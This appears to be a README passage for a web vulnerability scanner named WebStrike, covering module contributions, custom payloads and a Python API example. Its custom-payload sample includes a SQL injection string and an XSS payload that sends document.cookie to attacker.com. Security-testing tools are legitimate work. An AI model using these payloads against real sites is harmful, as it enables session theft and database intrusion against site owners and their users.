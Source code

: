 ## 🤝 Contributing

### Adding New Modules

1. Create new module in `engine/modules/`
2. Implement scanner class with required methods
3. Add module to main scanner initialization
4. Update CLI options and documentation
5. Add comprehensive test cases

### Custom Payloads

Add custom payloads to `engine/payloads/custom.txt`:
```
# Custom SQLi payload
' UNION SELECT @@version--

# Custom XSS payload
<img src=x onerror=fetch('//attacker.com/'+document.cookie)>
```

## 📚 API Reference

### Scanner Class

```python
from engine.scanner import WebStrikeScanner

# Initialize scanner
scanner = WebStrikeScanner("https://example.com", config={
    'max_depth': 3,
    'modules': ['sqli', 'xss']
})

# Setup authentication
scanner.setup_authentication({
    'type': 'bearer',
    'token': 'your-token-here'
})

# Run scan
import asyncio
results = asyncio.run(scanner.run_full_scan())

# Generate report
from reports.report_generator import ReportGenerator
generator = ReportGenerator()
generator.generate_html_report(results)
```

## 📖 Examples
